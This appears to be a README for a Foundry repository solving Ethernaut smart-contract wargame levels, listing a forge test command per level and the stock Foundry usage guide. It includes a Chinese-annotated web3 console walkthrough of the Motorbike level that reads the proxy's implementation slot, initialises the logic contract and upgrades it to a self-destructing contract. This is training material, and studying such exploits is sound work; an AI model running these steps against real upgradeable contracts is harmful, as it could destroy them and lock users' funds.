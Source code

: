 ```shell
forge test --match-path ./test/Fallback.t.sol
forge test --match-path ./test/Fallout.t.sol
forge test --match-path ./test/CoinFlip.t.sol
forge test --match-path ./test/Telephone.t.sol
forge test --match-path ./test/Token.t.sol
forge test --match-path ./test/Delegation.t.sol
forge test --match-path ./test/Force.t.sol
forge test --match-path ./test/Vault.t.sol
forge test --match-path ./test/King.t.sol
forge test --match-path ./test/Reentrancy.t.sol
forge test --match-path ./test/Elevator.t.sol
forge test --match-path ./test/Privacy.t.sol
forge test --match-path ./test/GatekeeperOne.t.sol
forge test --match-path ./test/GatekeeperTwo.t.sol
forge test --match-path ./test/NaughtCoin.t.sol
forge test --match-path ./test/Preservation.t.sol
forge test --match-path ./test/Recovery.t.sol
forge test --match-path ./test/MagicNumber.t.sol
forge test --match-path ./test/AlienCodex.t.sol
forge test --match-path ./test/Denial.t.sol
forge test --match-path ./test/Shop.t.sol
forge test --match-path ./test/Dex.t.sol
forge test --match-path ./test/DexTwo.t.sol
forge test --match-path ./test/PuzzleWallet.t.sol
forge test --match-path ./test/Motorbike.t.sol
forge test --match-path ./test/DoubleEntryPoint.t.sol
forge test --match-path ./test/GoodSamaritan.t.sol
forge test --match-path ./test/GatekeeperThree.t.sol


forge script script/MotorbikeDeploy.s.sol --rpc-url $RPC_URL_LOCAL --broadcast
forge script script/MotorbikeInteract.s.sol --rpc-url $RPC_URL_LOCAL --broadcast

forge install OpenZeppelin/openzeppelin-contracts@v3.4.2 --no-commit (solidity 0.6)
forge install OpenZeppelin/openzeppelin-contracts@v4.8.2 --no-commit (solidity 0.6)
```

Motorbike web 实现(sepolia 网络)

```
获取当前逻辑合约的地址
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")

0x000000000000000000000000e414f6cb24cf364877fa306b3e488f3204650721
返回的值将为 32 个字节，其中最右边的 20 个字节将是地址。梳理一下，并在其左侧附加 0x。
我们得到 0xe414f6cb24cf364877fa306b3e488f3204650721

let initializeCall = web3.eth.abi.encodeFunctionSignature("initialize()")
let implAddr = "0xe414f6cb24cf364877fa306b3e488f3204650721"
await web3.eth.sendTransaction({from: player, to: implAddr, data: initializeCall})

remix 部署 Destructive
0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168

let kill = web3.eth.abi.encodeFunctionSignature("killed()")
let callStr = web3.eth.abi.encodeFunctionCall({ name: 'upgradeToAndCall', type: 'function', inputs: [{ type: 'address', name: 'newImplementation' },{ type: 'bytes', name: 'data' }]}, ["0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168",kill]);

await web3.eth.sendTransaction({from: player, to: implAddr, data: callStr})
```

## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
